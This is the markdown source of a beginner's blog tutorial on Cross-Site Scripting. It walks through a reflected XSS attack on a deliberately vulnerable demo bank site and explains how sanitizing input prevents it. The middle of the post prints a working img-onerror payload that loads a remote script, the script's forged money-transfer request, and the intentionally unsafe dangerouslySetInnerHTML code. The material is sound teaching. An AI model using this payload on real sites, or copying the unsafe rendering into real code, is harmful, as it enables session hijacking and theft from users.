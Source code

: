 ```yaml
---
title: "Web Security 101: Cross-Site Scripting (XSS) Attacks"
date: "2020-06-01T12:00:00.000Z"
template: "post"
draft: false
isWeb: true
slug: "/blog/xss/"
img: "https://victorzhou.com/media/xss-post/dsb_4.png"
category: "Security"
tags:
  - "Security"
  - "Web Development"
  - "For Beginners"
  - "Demo"
  - "Javascript"
description: A hands-on beginner's guide to what XSS attacks are and how to prevent them.
prev: "/blog/csrf/"
next: "/blog/properly-size-images/"
---
```


Cross-Site Scripting (XSS) vulnerabilities are one of the most dangerous web security holes that exist. In this post, we'll see an **interactive demo of XSS** and learn how to protect against it.

> This is the second post in my [Web Security 101](/tag/security/) series. If you've read my introduction to CSRF, some of the preamble below might look familiar... feel free to skip ahead a bit.

## Setting the Scene

Picture this: you're a responsible, hardworking person. You've saved up your money over the years at **Definitely Secure Bank®**.

<figure>
  <img src="/media/csrf-post/dsb.svg" alt="The Definitely Secure Bank logo" style="background-color: transparent;" />
  <figcaption>The Definitely Secure Bank logo.</figcaption>
</figure>

You love Definitely Secure Bank - they've always been good to you, plus they make it easy to transfer money and more via their website. Sweet, right?

To get in character, let's have you open up your online banking portal and look around. <b><a href="https://dsb.victorzhou.com/login" target="_blank">Click here to open Definitely Secure Bank's website</a></b> and login. Use **any username** and **any password** you want (don't worry - it's _definitely_ secure). Keep that tab open for the rest of this post.

Once you've logged in, you should see a landing page that looks something like this:

![](./media-link/xss-post/dsb_1.png)

Click the **"Try searching for the answer"** link. That will bring you to the Search page. Play around with it:

![](./media-link/xss-post/dsb_2.png)

Not a very helpful Search page.

## One Fateful Day...

...you get an email titled: **FREE 🎁 iPhone giveaway!!!**

You open the email and click the link: **[➡️ Claim your free iPhone ⬅️](
https://dsb.victorzhou.com/search?q=%3Cimg%20src%3D%22%23%22%20onerror%3D%22const%20a%3Ddocument.createElement(%27script%27)%3Ba.src%3D%27https%3A%2F%2Fvictorzhou.com%2Fxss-demo.js%27%3Bdocument.body.appendChild(a)%3B%22%20%2F%3E)**.

> Yes, I actually want you to click this link for the purposes of the demo.

Assuming you were logged in to Definitely Secure Bank (DSB), you should see something like this after clicking the link:

![](./media-link/xss-post/dsb_3.png)

It's a little weird that it took you to your bank's website, but it just seems like a broken link, right? Nothing to worry about?

Click back to your DSB homepage, and you should see a new transfer:

![](./media-link/xss-post/dsb_4.png)

How did that happen?!

## How It Happened

The key vulnerability here is that the DSB search results page **echoes the search query without sanitizing it**. Remember this screenshot from earlier?

![](./media-link/xss-post/dsb_2.png)

Notice how the search query ("How do I transfer money") is echoed back onto the page: _Unfortunately, no results were found for **How do I transfer money**_.

What if our search query was a valid HTML string?

![](./media-link/xss-post/dsb_5.png)

Woah. That HTML `<a>` tag actually renders and functions as a link. Seems insecure, doesn't it?

Let's look at the demo attack from earlier. The attacker used a link to the DSB search results page with this format:

https://dsb.victorzhou.com/search?q=SEARCH_QUERY_HERE

The value of `SEARCH_QUERY_HERE` was:

```
%3Cimg%20src%3D%22%23%22%20onerror%3D%22const%20a%3Ddocument.createElement(%27script%27)%3Ba.src%3D%27https%3A%2F%2Fvictorzhou.com%2Fxss-demo.js%27%3Bdocument.body.appendChild(a)%3B%22%20%2F%3E
```

which [URL decodes](https://www.quora.com/What-is-URL-encoding-and-decoding) to:

```
<img src="#" onerror="const a=document.createElement('script');a.src='https://victorzhou.com/xss-demo.js';document.body.appendChild(a);" />
```

Look familiar? Let me syntax highlight that for you:

```html
<img src="#" onerror="const a=document.createElement('script');a.src='https://victorzhou.com/xss-demo.js';document.body.appendChild(a);" />
```

It's an image tag sourced from `"#"`, which errors and runs the Javascript code contained in the `onerror`! Here's the `onerror` code prettified:

```js
const a = document.createElement('script');
a.src = 'https://victorzhou.com/xss-demo.js';
document.body.appendChild(a);
```

This downloads the `xss-demo.js` script (which could be _anything_) and executes it. Here's what it contained in our case:

```js
// Header: xss-demo.js
const body = new URLSearchParams('amount=5000&description=Gotcha!&to=XSS-Attackers');
fetch('/transfer', {
  body,
  method: 'post',
});
```
<figcaption>Uses the <a href="https://developer.mozilla.org/en-US/docs/Web/API/Fetch_API" target="_blank" rel="noopener noreferrer">Fetch API</a></figcaption>.

This sends an [HTTP POST](https://developer.mozilla.org/en-US/docs/Web/HTTP/Methods/POST) request to the Definitely Secure Bank's (DSB) `/transfer` endpoint with these parameters:

| Parameter | Value |
| --- | --- |
| `amount` | 5000 |
| `description` | Gotcha! |
| `to` | XSS-Attackers |

**This request is identical to a legitimate transfer request** you would've created yourself. That's why XSS vulnerabilities are so dangerous - **the attacker can completely impersonate you** and do anything you could've done.

To summarize how clicking a spam link ended with you losing $5000:
- The link brought you to DSB's search results page, which unsafely reflects your search query.
- The search query was actually HTML code that caused your browser to download and execute an arbitrary script.
- That script sent a transfer request to the DSB server.
- The DSB server processed the request, since it saw nothing wrong.

There you have it: Cross-Site Scripting.

## Reflected vs. Stored XSS

The example above was an instance of **reflected XSS**, because it depended on DSB immediately reflecting a user input (the search query) back onto the page.

The other common type of XSS is **stored XSS** (or persistent XSS). This happens when the malicious code (usually an injected script, like in our example) is **stored on the target site's servers**. A classic example is storing user-generated comments without sanitizing them. An attacker could leave a malicious comment that injects a script, and **anyone who views that comment would be affected**.

## Do CSRF tokens protect against XSS?

You may have noticed that the `/transfer` endpoint has no [Cross-Site Request Forgery](/blog/csrf/) (CSRF) protection, which typically includes requiring a [CSRF token](/blog/csrf/#so-how-do-you-prevent-csrf-then). This was on purpose because it's used in my [CSRF demo](/blog/csrf/), which I recommend reading if you don't know what CSRF is.

To answer the question: **CSRF protection does nothing to prevent XSS** because XSS attacks don't originate from a different site, whereas CSRF attacks do. When done correctly, a request created by an XSS attack looks completely legitimate.

## How _do_ you prevent XSS?

It's simple: **sanitize user inputs**. Anytime you're inserting untrusted (user-generated) data onto your webpage, clean it first.

_How_ to do this cleaning is a bit outside of the scope of this post, but the good news is that it often comes for free. For example, [React](https://reactjs.org/), which the DSB site is built with, uses [JSX](https://reactjs.org/docs/introducing-jsx.html) syntax, which automatically [escapes values before rendering](https://reactjs.org/docs/introducing-jsx.html#jsx-prevents-injection-attacks) them, helping to prevent XSS attacks. To make the DSB search page vulnerable to XSS, I had to do this:

```jsx
<p>
  Unfortunately, no results were found for{' '}
  <span dangerouslySetInnerHTML={{ __html: query }} />.
</p>
```
<figcaption>
  DSB is open-source: you can see this code on <a href="https://github.com/vzhou842/definitely-secure-bank/blob/master/src/Search.js#L47-L50" target="_blank" rel="noopener noreferrer">Github</a>.
</figcaption>

Yup. It's named `dangerouslySetInnerHTML` for a reason.

If you're interested in the specifics of XSS prevention, I recommend this [XSS Prevention Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/Cross_Site_Scripting_Prevention_Cheat_Sheet.html). Alternatively, if you want to learn more about web security in general, check out my [introduction to CSRF](/blog/csrf/) as mentioned before.

Thanks for reading, and stay safe!
